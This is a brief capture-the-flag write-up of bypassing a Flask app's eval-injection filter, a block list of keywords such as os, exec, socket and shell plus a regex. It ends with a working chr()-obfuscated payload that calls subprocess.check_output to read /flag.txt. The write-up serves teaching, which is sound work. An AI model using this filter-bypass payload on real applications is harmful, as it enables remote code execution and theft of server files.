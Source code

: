 # 1. Analysis
![](Pasted%20image%2020250522092228.png)

interesting comments
```

TODO
------------
Secure python_flask eval execution by 

1.blocking malcious keyword like os,eval,exec,bind,connect,python,socket,ls,cat,shell,bind

2.Implementing regex: r'0x[0-9A-Fa-f]+|\\u[0-9A-Fa-f]{4}|%[0-9A-Fa-f]{2}|\.[A-Za-z0-9]{1,3}\b|[\\\/]|\.\.'

```

if we input malicious keyword, the server will banned
![](Pasted%20image%2020250522101257.png)

base on that comment, we have to craft a payload that bypassed that rules

lets use chatgpt to get explanation of that regex
![](Pasted%20image%2020250522104243.png)
example
![](Pasted%20image%2020250522104347.png)

It means we need to use functions other than `os`, `eval`, `exec`, `bind`, `connect`, `python`, `socket`, `ls`, `cat`, and `shell`, and we should also use obfuscation techniques not covered by the patterns in that regex.
# 2. Exploitation
after surf on the internet, i found alternative function like
```
import(‘subprocess’)
check_output() using getattr()
obfuscate using chr()
```

this is the final payload
```
from this..
getattr(__import__('subprocess'), 'check_output')(['cat', '/flag.txt']) 


to be..
getattr(__import__('subprocess'), 'check_output')([chr(99)+chr(97)+chr(116), chr(47)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)])
```

![](Pasted%20image%2020250522103734.png)
# 3. Conclussion
Hurray! You solved this challenge.

Knowledge need to know:
- Obfuscation
- Flask alternative function
